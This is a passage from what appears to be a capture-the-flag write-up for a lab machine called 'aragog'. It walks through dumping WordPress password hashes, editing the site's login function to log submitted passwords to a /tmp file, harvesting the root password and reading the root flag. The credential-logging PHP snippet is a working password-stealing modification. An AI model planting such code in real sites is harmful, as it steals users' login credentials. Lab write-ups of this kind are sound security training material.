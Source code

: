 Finally also:
```
mysql> select id,user_login,user_pass from wp_users;
+------+---------------+------------------------------------+
| id   | user_login    | user_pass                          |
+------+---------------+------------------------------------+
|    1 | Administrator | $P$B3FUuIdSDW0IaIc4vsjj.NzJDkiscu. |
| 9999 | robotz        | $P$B96YveHNBEtBWkUHhQmxH/ih5xLSfG. |
+------+---------------+------------------------------------+
2 rows in set (0.00 sec)
```

It looks like we have an administator user on this wiki. Adding the following line to our local machine's `/etc/hosts` file allows to access the site:
```
10.10.10.78	aragog
```

Here it is mentioned that cliff will often log in on the wordpress site. This sound like an automated login script doing this. We can then modify the file `/var/www/html/dev_wiki/wp-includes/user.php` to log the passwords used on the admin login form by adding some code:
```php
function wp_signon( $credentials = array(), $secure_cookie = '' ) {
    if ( empty($credentials) ) {
        $credentials = array(); // Back-compat for plugins passing an empty string.

        if ( ! empty($_POST['log']) )
            $credentials['user_login'] = $_POST['log'];
        if ( ! empty($_POST['pwd']) ){
            $credentials['user_password'] = $_POST['pwd'];
            $f = fopen("/tmp/qweasd", "a");
            fwrite($f, 'Found password: ' . $_POST['pwd']);
            fclose($f);
        }
```

This way, if someone logs in, the password will be saved in `/tmp/qweasd`. And it works, after some time:
```bash
florian@aragog:~$ cat /tmp/qweasd 
Found password: !KRgYs(JFO!&MTr)lfFound password: !KRgYs(JFO!&MTr)lfFound password: !KRgYs(JFO!&MTr)lf
```

We already have the password 3 times ! And it appears that this is actually the root password of the box. We can `su` to root and get the flag:
```bash
florian@aragog:~$ su root
Password: 
root@aragog:/home/florian# cat /root/root.txt 
9a9da52d7aad358699a96a5754595de6
```
